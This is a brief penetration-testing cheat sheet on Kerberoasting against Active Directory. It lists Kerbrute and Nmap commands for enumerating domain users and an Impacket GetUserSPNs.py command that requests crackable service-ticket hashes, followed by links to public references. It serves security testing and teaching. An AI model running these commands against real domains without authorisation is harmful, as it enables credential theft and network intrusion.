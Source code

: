 # Unix Shell

Search Tag(s): #kerberoasting

## 01 - Enumerate Users

### 1.1 - Kerbrute

- Enumerate users against the active directory

`$ kerbrute userenum [--dc <IP>] -d <domain_name> users.lst [-t 64]`

### 1.2 - Nmap

`$ nmap -p 88 -Pn --script=krb5-enum-users --script-args krb5-enum-users.realm="<domain_name>",userdb=users.lst <IP>`

## 02 - Impacket

- Request a Kerberos 5 TGS-REP etype 23 hash from an SPN user account

`$ GetUserSPNs.py -request -dc-ip <IP> <domain_name>/<username>:<password>`

---
## References

- [Impacket](https://github.com/fortra/impacket)

- [Kerbrute](https://github.com/ropnop/kerbrute)

- [Hacking Articles: Abusing Kerberos Using Impacket](https://www.hackingarticles.in/abusing-kerberos-using-impacket/)

- [Certcube: Kerberoasting Common Tools](https://blog.certcube.com/kerberoasting-common-tools/)

- [Pentesting Kerberos 88](https://book.hacktricks.xyz/pentesting/pentesting-kerberos-88)